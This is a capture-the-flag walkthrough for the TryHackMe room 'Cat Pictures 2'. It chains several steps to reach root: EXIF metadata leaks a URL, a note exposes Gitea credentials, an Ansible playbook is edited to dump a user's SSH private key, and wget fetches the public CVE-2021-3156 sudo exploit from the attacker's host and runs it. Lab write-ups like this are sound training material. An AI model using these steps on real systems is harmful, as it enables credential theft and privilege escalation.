





# Cat Pictures 2 Writeup

### Room link : https://tryhackme.com/room/catpictures2

## Port Scan
```
 kewl@h4x0r > ~/Desktop/leet/l > rustscan -a 10.10.158.237 -t 5000 -- -sV
...
...
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack nginx 1.4.6 (Ubuntu)
222/tcp  open  ssh     syn-ack OpenSSH 9.0 (protocol 2.0)
1337/tcp open  waste?  syn-ack
3000/tcp open  ppp?    syn-ack
8080/tcp open  http    syn-ack SimpleHTTPServer 0.6 (Python 3.6.9)
...
...
```

Lychee is hosted on port 80 , Gitea on port 3000 and OliveTin on port 1337

## Flag 1

head over to 10.10.158.237:80 and check the images. Description of the first images says "note to self: strip metadata". Download the image and run exfitool on it.

```
 kewl@h4x0r > ~/Desktop/leet/l > exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg | grep Title
Title                           : :8080/[REDACTED].txt
```

Now head over to 10.10.158.237:8080/[REDACTED].txt

```
 kewl@h4x0r > ~/Desktop/leet/l > curl http://10.10.158.237:8080/[REDACTED].txt
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: [REDACTED]

ansible runner (olivetin): port 1337
```

Lets use the password to log into samarium's Gitea account.
The user owns a private repo with the name "ansible"



## Flag 2
Now lets check ansible runner (olivetin) at port 1337.
Click on "Run Ansible Playbook" and wait for it to finish, then check the logs<br>


There is user named "bismuth". lets check if this user has a ssh key.<br>
Remember that we can edit playbook.yaml in ansible repo to execute the commands we want.
change "whoami" to "cat /home/bismuth/.ssh/id_rsa"
```yaml
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: cat /home/bismuth/.ssh/id_rsa
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```
Head over to OliveTin and run ansible playbook.
<br>
Use the private key to log into bimuth's account using ssh
```bash
chmod 600 bismuth_key
ssh -i bismuth_key bismuth@10.10.158.237
```
```bash
bismuth@catpictures-ii:~$ ls
flag2.txt
bismuth@catpictures-ii:~$ cat flag2.txt
[REDACTED]
```

## Flag 3
On running linpeas, I noticed that the sudo binary is outdated and we can get root by running the exploit for CVE-2021-3156<br>
<br>
The exploit can be found here : https://github.com/blasty/CVE-2021-3156<br>
Clone it onto your host machine and start SimpleHTTP server<br>


Download the files onto the remote machine
```bash
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/brute.sh
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/hax.c
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/lib.c
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/Makefile
.
.
bismuth@catpictures-ii:~$ make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
bismuth@catpictures-ii:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>

bismuth@catpictures-ii:~$ ./sudo-hax-me-a-sandwich 0

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1000(bismuth)
# cd /root
# ls
ansible  docker-compose.yaml  flag3.txt  gitea
# cat flag3.txt           
[REDACTED]
```
